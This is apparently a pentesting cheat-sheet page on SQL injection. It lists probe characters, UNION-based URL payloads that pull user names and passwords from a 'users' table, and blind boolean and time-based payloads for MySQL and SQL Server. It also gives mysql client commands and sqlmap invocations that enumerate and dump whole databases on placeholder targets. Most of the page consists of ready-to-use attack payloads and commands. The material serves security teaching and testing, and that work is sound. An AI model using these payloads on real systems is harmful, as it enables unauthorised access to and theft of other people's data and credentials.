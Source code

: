 ```yaml
---
description: SQL Injection
---
```


# SQLi

SQL Injection is a web security vulnerability that allows an attacker to interfer with the queries that an application makes to its database.

It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users or any other data that the application itself is able to access.

To test SQLi, we will put special characters into the input fields and observe errors returned by the application. 

```bash
'
"
')
")
'; -- 
"; --
'); -- 
"); --
' or 1=1; --
' or 1; --
' or 'a'='a
SELECT @@version  # Determine what the database information is
```

## Manual 

```bash
 http://target/comment.php?id=1'
 http://target/comment.php?id=1 order by 6
 http://target/comment.php?id=1 union all select 1,2,4,5,6
 http://target/comment.php?id=1 union all select 1,2,4,table_name,6 from information_schema.tables
 http://target/comment.php?id=1 union all select 1,2,4,column_name,6 from information_schema.columns where table_name='users'
 http://target/comment.php?id=1 union all select 1,2,4,concat(name,0x3a,password),6 FROM users
```

## Blind SQLi

Generally occurs when an application is vuln do SQLi but it does not return an error, which makes identifying and exploiting SQLi more difficult. Concatenating strings for known good values can determine if the SQL database is directing interpreting the values we're providing.

* **Boolean based**

```bash
user' AND 1; --  # Test if value is true, if user is a valid user then it returns good
user' AND 0; --  # Test if SQLi is being interpreted, known good username but always false 0
```

* **Time based**

```bash
# MySQL

id=1-SLEEP(15)  # Resulting query (with malicious SLEEP injected).
id=1-BENCHMARK(100000000, rand())  # Resulting query (with malicious BENCHMARK injected).

# SQLServer

id=1; WAIT FOR DELAY '00:00:15'  # Resulting query (with malicious SLEEP injected).
id=1; IF SYSTEM_USER='sa' WAIT FOR DELAY '00:00:15'  # Resulting query (verify if user is sa).
```

## Union Attack

 _When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the `UNION` keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack._

 _The `UNION` keyword lets you execute one or more additional `SELECT` queries and append the results to the original query. For example:_

 _`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`_

 _This SQL query will return a single result set with two columns, containing values from columns `a` and `b` in `table1` and columns `c` and `d` in `table2`_

 For a `UNION` query to work, two key requirements must be met:

*  **The individual queries must return the same number of columns.**
*  **The data types in each column must be compatible between the individual queries.**



* [https://portswigger.net/web-security/sql-injection/union-attacks](https://portswigger.net/web-security/sql-injection/union-attacks)

## Tools

### mysql cheat sheet

```bash
# Built-in mysql tools
mysql -u root    # Attempt to connect to db as root user, default is no pass
mysql -u root -p -h 10.10.10.1    # Connect to db at host 10.10.10.1 as root, prompts for password
mysql -u user1 -puser1pass    # Connect to local db. NOTE no space after '-p' for password!
mysqlshow -u something -psomethingpassword    # Again, NO SPACE AFTER -p FOR PASSWORD

# Inside the mysql shell
show databases;          # List all dbs on server  
use wordpress;           # Use a specific db
show tables;             # Show all tables for current db
describe wp_users;       # Show columns for a specific table
select * from wp_users;  # Dump all records from a table
```

### sqlmap

```bash
sqlmap -u "https://target.com/dir" # Without GET parameter
sqlmap -u "https://target.com/dir.php?id=1"  # With GET parameter

sqlmap –u "http://target.com/login.php" –data 'user=brun0&pass=something' # POST request with data
sqlmap -u "http://target.com/dir.php?id=1&Search=Submit" -p id # Testing id parameter

```

* **If we find SQLi in the target website then we can use the following commands.**

```bash
sqlmap -u "http://target.com/login.php?id=1" --dbs       # Lists all dbs on the host
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME --tables    # Lists all tables inside all dbs on host
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME -T TB_NAME --columns # List all columns
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME -T TB_NAME -C "col1,col2" --dump # List info from columns
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME --dump # Dump the database
```

## References

* [https://tools.kali.org/vulnerability-analysis/sqlmap](https://tools.kali.org/vulnerability-analysis/sqlmap)
* [https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/sql-injection](https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/sql-injection)

